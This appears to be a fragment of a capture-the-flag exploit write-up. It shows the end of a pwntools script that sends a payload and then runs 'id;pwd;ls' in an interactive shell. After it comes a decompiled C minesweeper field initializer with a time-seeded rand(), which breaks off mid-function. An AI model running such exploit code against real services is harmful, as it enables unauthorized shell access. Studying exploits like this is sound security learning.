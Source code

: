 ```python
if "\n" in pl:
    log.error("newline in payload:\n" + hexdump(pl))
vp.sendline()
vp.sendline(pl)

vp.sendline("id;pwd;ls")

vp.interactive()
```

And the code for the field initialization:

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int field[256] = {0, };
time_t seed;

void init_field()
{
  unsigned int v0; // eax@1
  int v2; // [sp+8h] [bp-8h]@1
  int v3; // [sp+8h] [bp-8h]@8
  int i; // [sp+8h] [bp-8h]@11
  int v5; // [sp+Ch] [bp-4h]@1
  int v6; // [sp+Ch] [bp-4h]@8
  int v7; // [sp+Ch] [bp-4h]@11

  srand(seed);

  // place the bombs
  size_t bomb_count = 0;
  while ( bomb_count < 50 )
  {
    v6 = rand() % 16;
    v3 = rand() % 16;
    if ( field[v3 + 16 * v6] != '*' )
    {
      field[v3 + 16 * v6] = '*';
      ++bomb_count;
    }
  }

  // calculate the counts
  for (i = 0; i < 16; ++i ) {
    for (v7 = 0; v7 < 16; v7++) {
      if ( field[i + 16 * v7] != '*' ) {
        field[i + 16 * v7] = 0;
        if ( field[i - 1 + 16 * (v7 - 1)] == '*')
          ++field[i + 16 * v7];
        if ( field[i + 16 * (v7 - 1)] == '*' )
          ++field[i + 16 * v7];
        if ( field[i - 1 + 16 * v7] == '*' )
          ++field[i + 16 * v7];
        if ( field[i + 1 + 16 * (v7 - 1)] == '*' )
          ++field[i + 16 * v7];
        if ( field[i - 1 + 16 * (v7 + 1)] == '*' )
          ++field[i + 16 * v7];
        if ( field[i + 16 * (v7 + 1)] == '*' )
          ++field[i + 16 * v7];
        if ( field[i + 1 + 16 * v7] == '*' )
          ++field[i + 16 * v7];
```